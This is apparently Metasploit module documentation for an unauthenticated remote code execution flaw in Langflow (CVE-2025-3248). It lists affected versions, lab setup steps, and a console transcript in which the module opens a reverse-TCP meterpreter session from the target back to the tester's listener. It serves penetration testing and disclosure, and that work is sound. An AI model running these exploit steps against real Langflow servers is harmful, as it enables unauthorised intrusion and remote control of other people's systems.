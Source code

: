 ## Vulnerable Application

Langflow versions prior to 1.3.0 are susceptible to code injection in the /api/v1/validate/code endpoint.
A remote and unauthenticated attacker can send crafted HTTP requests to execute arbitrary code.

The vulnerability affects:

    * Langflow < 1.3.0
    * Langflow <= 1.3.2 (latest at the time of this writing) if authentication isn't enabled.

This module was successfully tested on:

    * Langflow 1.3.2 installed with Docker (authentication isn't enabled)


### Installation
1. `git clone https://github.com/langflow-ai/langflow.git`

2. `cd langflow/docker_example`

3. `docker compose up`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/langflow_unauth_rce_cve_2025_3248`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/multi/http/langflow_unauth_rce_cve_2025_3248
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/http/langflow_unauth_rce_cve_2025_3248) > options

Module options (exploit/multi/http/langflow_unauth_rce_cve_2025_3248):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    7860             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python payload



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/langflow_unauth_rce_cve_2025_3248) > run lhost=192.168.56.1 rhost=192.168.56.16
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Version 1.3.2 detected.
[*] Sending stage (24772 bytes) to 192.168.56.16
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:44358) at 2025-04-11 14:42:43 +0900

meterpreter > getuid
Server username: user
meterpreter > sysinfo
Computer        : 36ad04bd6644
OS              : Linux 6.8.0-56-generic #58-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 14 15:33:28 UTC 2025
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```
